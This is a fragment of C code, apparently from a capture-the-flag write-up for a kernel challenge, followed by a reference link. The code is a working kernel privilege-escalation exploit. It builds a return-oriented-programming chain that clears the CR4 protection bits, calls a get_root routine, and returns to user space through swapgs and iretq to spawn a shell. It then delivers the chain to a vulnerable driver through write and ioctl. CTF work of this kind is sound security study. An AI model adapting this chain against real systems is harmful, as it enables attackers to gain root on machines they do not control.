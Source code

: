 ```assembly

    rop[i++] = MOV_RAX_CR4_ADD_RSP_8_POP_RBP_RET + offset;
    rop[i++] = *(size_t*) "arttnba3";
    rop[i++] = *(size_t*) "arttnba3";
    rop[i++] = POP_RDI_RET + offset;
    rop[i++] = 0xffffffffffcfffff;
    rop[i++] = AND_RAX_RDI_RET + offset;
    rop[i++] = MOV_CR4_RAX_PUSH_RCX_POPFQ_RET + offset;

    rop[i++] = get_root;
    
    
    //kernel space to user spcace :swapgs iretq
    //swapgs: get kernel data structure
    //popfq:pop eflags
    //retn iretq
    rop[i++] = 0xffffffff81a012da + offset; //swapgs; popfq; ret
    rop[i++] = 0;
    
    //iretq:from kernel space to user space
    //prepare cs,eflags.rsp,
    rop[i++] = 0xffffffff81050ac2 + offset; //iretq; ret
    
    
    rop[i++] = (size_t)spawn_shell; //rip

    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    
    write(fd,rop,0x800);
    ioctl(fd, 0x6677889A, 0xffffffffffff0000 | (0x100));

   
    return 0;
}
```

参考

https://x3h1n.github.io/2019/07/04/2018%E5%BC%BA%E7%BD%91%E6%9D%AF-core/